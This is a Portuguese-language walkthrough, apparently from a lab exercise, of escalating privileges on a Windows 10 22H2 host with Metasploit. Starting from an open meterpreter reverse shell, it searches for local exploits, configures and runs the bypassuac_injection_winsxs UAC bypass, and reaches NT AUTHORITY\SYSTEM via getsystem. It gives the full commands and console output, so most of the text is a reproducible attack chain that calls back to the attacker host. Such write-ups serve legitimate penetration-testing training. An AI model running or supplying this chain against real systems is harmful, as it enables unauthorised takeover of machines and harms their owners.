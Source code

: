 ## Escalando Privilégio

Não existe uma 'receita' definitiva, srá necessário testar  vários scripts até obter sucesso.

Nesta fase, supõe-se que já temos acesso a máquina alvo através do meterpreter. Neste exemplo na porta 4444.

```
$ msfconsole
Metasploit tip: Enable HTTP request and response logging with set HttpTrace 
true

Metasploit Documentation: https://docs.metasploit.com/

msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set LHOST 192.168.1.10
LHOST => 192.168.1.10

msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.1.10:4444 
[*] Sending stage (203846 bytes) to 192.168.1.38
[*] Meterpreter session 1 opened (192.168.1.10:4444 -> 192.168.1.38:49765) at 2025-09-04 09:59:18 -0300

meterpreter > 
```
## Pesquisa do exploit

Neste momento, temos acesso a uma conta de usuério
```
meterpreter > getuid
Server username: WIN10\user

meterpreter > sysinfo
Computer        : WIN10
OS              : Windows 10 22H2+ (10.0 Build 19045).
Architecture    : x64
System Language : pt_BR
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```
O objetivo é escalar para uma conta com privilégios de sistema.

O primeiro passo é colocar a sessão do meterpreter em 'espera', e retonar ao prompt do metasploit.
```
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > show sessions

Active sessions
===============

  Id  Name  Type                     Information         Connection
  --  ----  ----                     -----------         ----------
  1         meterpreter x64/windows  WIN10\user @ WIN10  192.168.1.10:4444 -> 192.168.1.38:49765
                                                          (192.168.1.38)

msf6 exploit(multi/handler) > 
```
E procurar por exploits que escale privilégios. Exemplos:

* A build é de outubro de 2022, pode-se procurar exploits desse ano.
  ```
  msf6 exploit(multi/handler) > search 2022
  ``` 
  Alguns exploits candidatos:
  
  | # | Name | Date | Rank | Check | Description |
  |---|------|------|------|-------|-------------|
  | 47 |  exploit/windows/local/cve_2022_21999_spoolfool_privesc | 2022-02-08 | normal |   Yes |   CVE-2022-21999 SpoolFool Privesc |
  |233 | exploit/windows/local/cve_2022_26904_superprofile | 2022-03-17 | excellent |      Yes | User Profile Arbitrary Junction Creation Local Privilege Elevation |

  *observe 'windows/local'*
* Procure por 'bypassuac'.
  ```
  msf6 exploit(multi/handler) > search bypassuac
  ```
  Alguns exploits candidatos:
  | # | Name | Date | Rank | Check | Description |
  |---|------|------|------|-------|-------------|
  | 2 | exploit/windows/local/bypassuac | 2010-12-31 |excellent | No | Windows Escalate UAC Protection Bypass|
  |5 |  exploit/windows/local/bypassuac_injection | 2010-12-31  |     excellent | No |    Windows Escalate UAC Protection Bypass (In Memory Injection)|
  |8 |  exploit/windows/local/bypassuac_injection_winsxs  |     2017-04-06   |    excellent | No    | Windows Escalate UAC Protection Bypass (In Memory Injection)|
  | 11 | exploit/windows/local/bypassuac_vbs    |                2015-08-22    |   excellent | No    | Windows Escalate UAC Protection Bypass (ScriptHost Vulnerability)|
  | 12 | exploit/windows/local/bypassuac_comhijack     |         1900-01-01      | excellent  |Yes   | Windows Escalate UAC Protection Bypass (Via COM Handler Hijack)|
  | 13 | exploit/windows/local/bypassuac_eventvwr     |          2016-08-15    |  excellent | Yes  |  Windows Escalate UAC Protection Bypass (Via Eventvwr Registry Key)|
  | 16 | exploit/windows/local/bypassuac_sdclt    |              2017-03-17       |excellent | Yes  |  Windows Escalate UAC Protection Bypass (Via Shell Open Registry Key)|
  | 17 | exploit/windows/local/bypassuac_silentcleanup     |     2019-02-24     |  excellent | No   |  Windows Escalate UAC Protection Bypass (Via SilentCleanup) |
  | 18 | exploit/windows/local/bypassuac_dotnet_profiler  |      2017-03-17   |    excellent |Yes  |  Windows Escalate UAC Protection Bypass (Via dot net profiler)|
  | 19 | exploit/windows/local/bypassuac_fodhelper      |        2017-05-12   |    excellent | Yes  |  Windows UAC Protection Bypass (Via FodHelper Registry Key)|
  | 22 | exploit/windows/local/bypassuac_sluihijack      |       2018-01-15     |  excellent | Yes  |  Windows UAC Protection Bypass (Via Slui File Handler Hijack)|

## Seleção do Exploit

Após vária tentativas, o exploit que funcionou foi o **bypassuac_injection_winsxs**

> Description:
>  This module will bypass Windows UAC by utilizing the trusted publisher certificate through process injection. It will spawn a second shell that has the UAC flag turned off by abusing the way "WinSxS" works in Windows systems. This module uses the Reflective DLL Injection technique to drop only the DLL payload binary instead of three seperate binaries in the standard technique. However, it requires the correct architecture to be selected, (use x64 for SYSWOW64 systems also).
```
msf6 > use exploit/windows/local/bypassuac_injection_winsxs
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```
## Configuração

Informando payload e target para a arquitetura do alvo.
```
set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
```
```
msf6 exploit(windows/local/bypassuac_injection_winsxs) > set target 1
target => 1
```
Informando a sessão do meterpreter aberta
```
msf6 exploit(windows/local/bypassuac_injection_winsxs) > set SESSION 1
SESSION => 1
```
Informando a máquina de ataque (origem do ataque).
```
msf6 exploit(windows/local/bypassuac_injection_winsxs) > set LHOST 192.168.1.10
LHOST => 192.168.1.10
```
É preciso alterar a porta, uma vez que já temos uma outra sessão na porta 4444.
```
msf6 exploit(windows/local/bypassuac_injection_winsxs) > set LPORT 5555
LPORT => 5555
```
Verificando as configurações:
```
msf6 exploit(windows/local/bypassuac_injection_winsxs) > show options

Module options (exploit/windows/local/bypassuac_injection_winsxs):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none
                                        )
   LHOST     192.168.1.10     yes       The listen address (an interface may be specified)
   LPORT     5555             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows x64
```
Estamos prontos para a execução do exploit.

## Execução
```
msf6 exploit(windows/local/bypassuac_injection_winsxs) > run
[*] Started reverse TCP handler on 192.168.1.10:4444 
[+] Windows 10 version 22H2 may be vulnerable.
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Creating temporary folders...
[*] Uploading the Payload DLL to the filesystem...
[*] Spawning process with Windows Publisher Certificate, to inject into...
[+] Successfully injected payload in to process: 4872
[*] Sending stage (203846 bytes) to 192.168.1.38
[+] All the dropped elements have been successfully removed
[*] Meterpreter session 2 opened (192.168.1.10:4444 -> 192.168.1.38:50574) at 2025-09-04 10:54:17 -0300

meterpreter > getuid
Server username: WIN10\user
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```
Ataque feito com sucesso, máquina alvo windows 10 22H2 invadida com privilégio de sistema.
